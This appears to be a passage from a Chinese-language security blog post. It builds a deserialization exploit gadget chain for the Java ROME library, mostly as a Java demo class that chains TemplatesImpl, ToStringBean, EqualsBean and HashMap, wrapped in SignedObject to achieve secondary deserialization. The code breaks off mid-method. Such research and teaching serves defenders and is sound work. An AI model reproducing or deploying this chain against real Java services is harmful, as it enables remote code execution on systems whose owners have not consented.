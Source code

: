 [![](assets/1701071934-0c4d423b3a1a308d39bf51b050895d6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231124223624-d82d32a8-8ad6-1.png)  
构造 payload 使 value 为 equalsbean，m.get(key) 为恶意对象  
demo：

```bash
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.io.Serializable;
import java.math.BigInteger;
import java.security.*;
import java.security.interfaces.DSAParams;
import java.security.interfaces.DSAPrivateKey;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class rome6 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl template = (TemplatesImpl) util.getTeml();
        ToStringBean toStringBean = new ToStringBean(Templates.class, "template");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashMap hashmap = new HashMap();
        hashmap.put(equalsBean, "1");
        util.setFieldValue(toStringBean,"_obj",template);
        SignedObject s = makeSignedObject(hashmap);
        SignedObject s2 = makeSignedObject(null);

        // 二次反序列化
        EqualsBean equalsBean2 = new EqualsBean(String.class, "1");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
```